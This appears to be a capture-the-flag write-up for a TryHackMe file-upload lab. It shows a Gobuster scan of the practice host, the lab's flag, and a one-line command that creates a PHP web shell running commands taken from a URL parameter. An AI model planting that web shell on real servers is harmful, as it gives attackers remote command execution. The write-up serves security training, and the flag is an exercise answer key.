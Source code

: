 ### Remote Code Execution

There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: `webshells` and `reverse/bind shells`.

Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

#### Run a Gobuster scan on the website using the syntax. What directory looks like it might be used for uploads?

```
/resources
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shell.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
/assets               (Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]
```

<br>

#### Get either a web shell or a reverse shell on the machine. What's the flag in the `/var/www/ ` directory of the server?

```
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```

I created a file called `webshell.php` and uploaded to the website in order to get a webshell on the machine.

`echo '<?php echo system($_GET["cmd"]); ?>' > webshell.php`
